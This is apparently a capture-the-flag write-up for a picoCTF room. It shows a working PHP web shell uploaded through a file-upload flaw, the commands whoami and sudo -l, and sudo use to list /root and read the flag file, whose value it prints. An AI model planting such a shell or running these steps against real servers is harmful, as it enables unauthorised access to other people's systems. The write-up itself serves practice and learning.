



# Step by step breakdown

**🔥 Exploited file upload vulnerability → PHP shell → Sudo privilege → Captured flag. No reverse shells needed this time.**

I first started off by trying to run a classic php shell through the file upload vulnerability

    <?php
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
    ?>

I saved this code to a file and named it shell.php and uploaded it through the file upload functionality

afterwards I traversed to the URL where the file I executed a simple whoami command by appending '?cmd=whoami' to the URL

With www-data I cannot access the /root directory, so I know I have to try some light privilege escalation techniques. I start by trying the sudo -l command which outputs:

which leads me to believe that I can simply access the root directory with sudo privileges without having to escalate to a root user, so I run

    ls -la /root

to view all the files in root directory

Then it's BBQ chicken from there

# Capturing the flag 🏁

    sudo cat /root/flag.txt

    picoCTF{wh47_c4n_u_d0_wPHP_8ca28f94}

Flag captured. Game over. 🎯

# Lessons learned

Don't waste trying to launch reverse shells on rooms like this cuz they're hosted on AWS and more than likely won't let you establish a connection and you'll spend twenty minutes trying to figure out what's wrong only to find out that you should have just stuck with the webshell instead of trying to be a ghetto red team operator

